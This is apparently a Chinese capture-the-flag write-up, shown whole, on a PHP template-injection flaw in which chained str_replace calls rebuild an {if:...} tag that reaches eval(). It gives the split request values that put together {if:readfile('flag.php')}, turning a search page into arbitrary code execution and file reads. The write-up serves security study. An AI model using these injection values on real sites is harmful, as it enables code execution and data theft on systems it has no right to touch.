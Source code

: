 ```php
    }
    return $content;
}
```



在parseIf中，当$content中有**{if:**时，进入else语句。这里的正则规则如下

```php
/{if:(.*?)}(.*?){end if}/is
```



在parse_again()

```php
$template_html = file_get_contents("template.html");
```

然后一下这段代码：

```php
	$template_html = str_replace("{haha:searchword}",$searchword,$template_html);
	$template_html = str_replace("{haha:searchnum}",$searchnum,$template_html);
	$template_html = str_replace("{haha:type}",$type,$template_html);
	$template_html = str_replace("{haha:typename}",$typename,$template_html);
```

在temlate.html中全局搜索一下**{haha:searchword}**，以及**{haha:searchnum}**，发现有一处，这两个字符串是先后顺序

```html
<a href="#">{haha:searchword} </a> <small>共有<span class="sea-text">{haha:searchnum}</span>个影片 
```



那么为了触发eval()函数，我们可以把这两处分别替换成

```php
$searchword={i{haha:type}
$searchnum={end%20if}
```

替换成

```html
{i{haha:type} </a> <small>共有<span class="sea-text">{end if}
```

接着按照这个思路

```php
$type=f:rea{haha:typename}
$typename=dfile(%27flag.php%27)}
```

替换成

```php
{if:readfile(%27flag.php%27)} </a> <small>共有<span class="sea-text">{end if}
```
